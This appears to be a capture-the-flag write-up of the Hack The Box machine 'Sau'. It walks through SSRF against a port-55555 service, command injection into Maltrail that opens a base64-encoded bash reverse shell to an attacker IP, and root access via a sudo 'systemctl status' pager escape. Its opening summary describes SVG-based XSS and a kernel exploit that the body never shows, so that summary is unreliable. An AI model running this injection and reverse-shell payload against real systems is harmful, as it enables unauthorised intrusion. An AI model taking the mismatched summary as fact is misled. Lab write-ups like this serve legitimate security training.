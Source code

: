 # Sau - Linux(Easy)

## Summary

Sau is an easy Linux-based machine that tests basic web enumeration and exploitation skills. The machine presents a simple web application that allows uploading SVG files. By analyzing the functionality and the underlying technologies, the user discovers a vulnerability related to SVG-based XSS and leverages it to access sensitive information. With further enumeration, the attacker identifies a way to gain a reverse shell and eventually escalate privileges to root using a known Linux kernel exploit.

## Nmap Enumeration

Pro Tip: Always begin with a full Nmap scan to find all open TCP and UDP ports
This gives you a clear view of the machine's attack surface
After that scan the open ports with default scripts and vulnerability checks to gather more useful information

![Screenshot 2025-05-29 124706](https://github.com/user-attachments/assets/c0faa800-68eb-4687-adb9-3959cfee2fa6)


## Web Enumeration

On port 55555 we have somekind of an application 

![image](https://github.com/user-attachments/assets/8f5c1beb-2ab2-4649-ad22-29bd421352d7)

Important Tip:
During every web application pentest always inspect the source code. It may contain hardcoded credentials version information or other sensitive data — just like in this case

![image](https://github.com/user-attachments/assets/01dd9f16-2214-4f03-8a53-8eb7372b4691)


After finding the version we look it up for vulnerabilities 

![image](https://github.com/user-attachments/assets/ada68450-e915-43db-9270-20eeaddde5c2)

And we find this CVE Server-Side Request Forgery (SSRF)

Server-Side Request Forgery (SSRF)

![image](https://github.com/user-attachments/assets/247b9148-7e98-427a-b6f3-4579246bf646)

We configure the connection to return to localhost on port 80

And we get a new page after doing this

![image](https://github.com/user-attachments/assets/b35e6307-e87f-4c79-95f9-91396eb1034f)

Now we look up for sensitive data and we find a version of Maltrail

![image](https://github.com/user-attachments/assets/7602016b-04e5-466a-a167-166029bcf76e)

After looking it in github we find a POC and how to use the exploit

![image](https://github.com/user-attachments/assets/43301e61-4233-4160-8130-d5f5cf6c3598)


Now we make a reverseshell and encode it in base64 (i used cyberchef but it dosent matter how u do it to be honest)
We also start a netcat listner on port 9001

And when we curl it now we are able to get a shell as the user puma

curl http://10.10.11.224:55555/4mmp253 -d 'username=;`echo YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMy85MDAxICAwPiYx | base64 -d | bash`'

![image](https://github.com/user-attachments/assets/90c2c0ca-4c47-41bf-b5e8-f6f0b8404a15)


<img width="198" alt="image" src="https://github.com/user-attachments/assets/39ab0568-1002-47d4-bb7a-016ab47c3c80" />


## Privilege Escalation

With sudo -l we are able to run this as root witouth the need of root password

![image](https://github.com/user-attachments/assets/9ac1588c-96b0-4511-9992-b9a086d4b4d6)

This service runs with root privileges, so when we trigger it, we gain a shell within the current session. To stabilize it, we spawn a TTY using:  python3 -c 'import pty; pty.spawn("/bin/bash")'


<img width="519" alt="image" src="https://github.com/user-attachments/assets/5d7718bb-959f-4270-861a-b009152ada01" />

The machine was rooted by exploiting misconfigured sudo permissions that allowed the user to run systemctl status as root without a password. This command when executed spawns an interactive pager which can be escaped by running shell commands (e.g., !/bin/sh). By leveraging this a root shell was gained resulting in full system compromise.







